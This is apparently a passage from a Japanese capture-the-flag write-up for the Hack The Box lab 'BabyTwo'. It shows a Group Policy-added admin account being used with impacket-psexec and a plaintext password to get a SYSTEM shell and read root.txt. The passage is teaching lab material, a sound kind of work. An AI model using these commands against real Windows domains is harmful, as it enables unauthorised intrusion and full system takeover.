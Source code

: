 ```sh
For more detailed information, review the event log or run GPRESULT /H GPReport.html from the command line to access information about Group Policy results.



PS C:\Users\Amelia.Griffiths\Desktop> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
gpoadm

```
管理者グループにgpoadmが追加されてる!!

psexec.pyで接続して、root.txtを取得する
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/BabyTwo]
└─$ impacket-psexec baby2.vl/GPOADM:'SuperPass123!'@10.129.234.72 cmd.exe
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.234.72.....
[*] Found writable share ADMIN$
[*] Uploading file IyOhQyTJ.exe
[*] Opening SVCManager on 10.129.234.72.....
[*] Creating service aLtt on 10.129.234.72.....
[*] Starting service aLtt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.4052]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop             
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is E6F3-2485

 Directory of C:\Users\Administrator\Desktop

08/21/2025  03:02 AM    <DIR>          .
08/22/2023  10:08 AM    <DIR>          ..
04/16/2025  02:47 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)   8,019,820,544 bytes free

C:\Users\Administrator\Desktop> type root.txt
<SNIP>
```
root.txtを取得できた
